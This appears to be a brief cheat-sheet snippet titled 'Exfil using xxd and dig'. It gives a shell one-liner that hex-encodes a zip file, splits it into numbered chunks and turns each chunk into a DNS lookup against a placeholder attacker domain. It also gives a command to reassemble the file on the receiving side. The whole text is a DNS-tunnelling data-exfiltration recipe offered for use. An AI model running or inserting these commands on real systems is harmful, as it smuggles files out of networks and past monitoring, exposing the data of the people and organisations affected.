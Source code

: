 
Exfil using xxd and dig
xxd -p -c 8 4digits.hex.zip |  nl -s"." -nrz -w5 | while read h; do echo dig $h.<domain>; done

Re-assemble packets
xxd -r -p 4digits.hex
